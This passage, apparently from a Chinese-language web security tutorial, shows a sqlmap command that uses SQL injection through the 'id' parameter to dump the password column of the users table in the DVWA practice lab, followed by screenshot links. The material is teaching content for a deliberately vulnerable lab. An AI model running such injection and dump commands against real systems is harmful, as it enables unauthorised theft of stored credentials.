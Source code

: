 以url中的id为注入点，注入dvwa库下，users表下的password列的数据。

`sqlmap -r 1.txt  -p id -D dvwa -T users -C password --dump`

![image-20220219134610599](../../images/image-20220219134610599.png)

![image-20220219134631157](../../images/image-20220219134631157.png)

以上是sqlmap的基本用法，这个工具还有许多其他强大的功能，在后文工具篇另有详述。